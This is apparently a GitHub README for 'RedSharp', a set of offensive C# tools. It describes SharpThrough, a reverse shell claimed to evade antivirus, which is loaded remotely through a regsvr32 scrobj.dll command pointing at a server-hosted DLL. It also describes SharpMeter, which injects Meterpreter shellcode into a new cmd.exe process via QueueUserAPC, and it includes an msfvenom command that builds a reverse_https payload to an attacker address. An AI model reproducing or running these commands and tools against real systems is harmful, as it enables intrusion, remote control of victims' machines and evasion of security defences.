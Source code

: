 # RedSharp
random C# tools and scripts for Pentesting and offensive stuff

## SharpThrough
Simple yet effective C# reverse shell, at the moment can bypass many (maybe all) AVs  
Simple technique is used -> it compiles code in memory  
IDE VS 2015 , csproj is available. Compile platform choiche is yours: suggested is x64  
You can also compile it with :  
```
Usage:
C:\Windows\Microsoft.NET\Framework\v3.5\csc.exe /target:library Program.cs
./DotNetToJScript.exe -c SharpThrough.RS -o test.dll -u Program.dll
regsvr32 /n /s /u /i:http://server/test.dll scrobj.dll
```

## SharpMeter
Executing Meterpreter generated shellcode via QueueUserAPC:  
(create a new process, "cmd.exe" in this case, injects and executes shellcode in process memory).  
First, generate your Meterpreter payload in C# format, like this :  
```msfvenom -a x64 -p windows/x64/meterpreter/reverse_https  lhost=10.200.3.163 lport=443 -f csharp -o pay.txt```  
Watch out to your architecture choice! x64 payload will only work with x64 executable version of sharpmeter.  
Do not touch generated payload format (not even the variable name)! Leave it as it is.
```
Usage :
sharpmeter.exe PATH_TO_PAYLOAD

Setup your Meterpreter handler + payload listener on the attacking machine
```
An example payload (x64 format) is attached inside the project. IDE VS 2015, csproj is available.  
This program is capable of running ANY shellcode but you need to be aware of shellcode format; it has to be in "meterpreter" format, so you may eventually convert it (but it's an easy task)

https://www.virustotal.com/#/file/12835ae086001626776b4ea0ce68035e2cd46c1924cb83bbe4ae7d5f615001ce/detection
